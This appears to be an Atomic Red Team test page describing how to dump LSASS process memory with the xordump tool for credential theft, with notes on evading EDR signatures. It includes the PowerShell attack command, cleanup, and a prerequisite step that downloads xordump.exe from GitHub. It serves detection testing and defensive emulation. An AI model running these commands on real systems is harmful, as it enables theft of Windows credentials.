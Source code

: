 ## Atomic Test #12 - Dump LSASS.exe using imported Microsoft DLLs
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved by
importing built-in DLLs and calling exported functions. Xordump will re-read the resulting minidump 
file and delete it immediately to avoid brittle EDR detections that signature lsass minidump files.

Upon successful execution, you should see the following file created $env:TEMP\lsass-xordump.t1003.001.dmp.

**Supported Platforms:** Windows


**auto_generated_guid:** 86fc3f40-237f-4701-b155-81c01c48d697





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xordump_exe | Path to xordump | path | C:&#92;Windows&#92;Temp&#92;xordump.exe|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass-xordump.t1003.001.dmp|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
#{xordump_exe} -out #{output_file} -x 0x41
```

#### Cleanup Commands:
```powershell
Remove-Item #{output_file} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must have xordump.exe
##### Check Prereq Commands:
```powershell
if (Test-Path '#{xordump_exe}') {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/audibleblink/xordump/releases/download/v0.0.1/xordump.exe" -OutFile #{xordump_exe}
```




<br/>
